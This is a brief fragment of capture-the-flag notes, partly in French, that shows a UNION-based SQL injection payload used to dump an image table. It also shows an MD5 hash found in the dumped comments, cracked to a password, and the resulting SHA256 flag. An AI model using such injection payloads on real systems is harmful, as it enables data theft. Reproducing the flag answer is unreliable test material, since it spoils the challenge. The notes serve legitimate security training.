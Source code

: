 table: list_images
columns: id, url, title, comment
5 union all select 1,concat(id,0x3a,url,0x3a,title,0x3a,comment) from Member_images.list_images
Dans les commentaires on trouve: "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"
-> albatroz
SHA256(albatroz) = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

